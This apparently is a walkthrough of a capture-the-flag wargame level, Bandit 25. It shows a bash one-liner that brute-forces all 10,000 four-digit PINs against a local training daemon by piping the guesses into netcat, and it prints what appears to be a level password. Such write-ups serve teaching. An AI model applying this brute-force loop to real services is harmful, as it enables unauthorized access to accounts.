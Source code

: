 # Level 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Though this could look nicer as a script, it can be set up as a one-liner:
```for N in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $N"; done | nc localhost 30002```

Remember to pipe into `netcat` *after* generating the lines, if you call nc for each line it will take a lot longer.
